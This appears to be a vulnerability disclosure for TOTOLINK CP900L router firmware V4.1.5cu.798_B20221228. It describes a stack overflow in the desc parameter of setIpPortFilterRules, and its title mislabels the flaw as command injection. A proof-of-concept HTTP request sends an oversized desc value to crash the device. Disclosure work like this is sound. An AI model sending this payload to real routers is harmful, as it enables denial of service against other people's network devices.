


# TOTOLINK CP900L V4.1.5cu.798_B20221228 command injection

### Product Information

Product: TOTOLINK CP900L Firmware Version: V4.1.5cu.798_B20221228  Manufacturer's website information：https://www.totolink.net/ 

Firmware download address ：[TOTOLINK](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/257/ids/36.html)

### Analysis

TOTOLINK CP900L V4.1.5cu.798_B20221228 was discovered to contain a stack overflow via the desc parameter in the function **setIpPortFilterRules**

By constructing specific parameters, v9 can be copied onto the stack through strcpy, causing a denial of service




### POC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 108
Origin: http://192.168.0.1
Connection: close


{
    "topicurl": "setting/setIpPortFilterRules",
    "addEffect": "2",
    "ip": "1",
    "sPort": "1",
    "ePort": "1",
    "proto": "TCP",
    "desc": "a"*0x100
}

```


